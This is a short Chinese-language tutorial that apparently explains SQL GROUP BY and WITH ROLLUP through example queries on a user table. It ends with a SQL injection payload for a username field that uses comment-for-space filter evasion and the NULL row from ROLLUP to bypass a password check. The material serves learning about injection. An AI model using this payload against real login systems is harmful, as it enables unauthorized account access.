 **group by（将结果集中的数据行根据选择列的值进行逻辑分组）**

不加 group by 的查询结果

```sql
sql语句：select password from user
```

查询结果：

| password |
| -------- |
| 1        |
| 1        |
| 2        |
| 3        |

加入 group by 的查询结果

```
sql语句：select password,count(*) from user group by password;
```

查询结果：

| password | count(*) |
| -------- | -------- |
| 1        | 2        |
| 2        | 1        |
| 3        | 1        |



**with rollup （group by 后可以跟 with rollup，表示在进行分组统计的基础上再次进行汇总统计）**

```
sql语句：select password,count(*) from user group by password with rollup;
```

| password | count(*) |
| -------- | -------- |
| 1        | 2        |
| 2        | 1        |
| 3        | 1        |
| NULL     | 4        |

对密码进行验证时可以使用这个，使得 NULL = NULL 即可

```
payload:username=admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#&password=
```

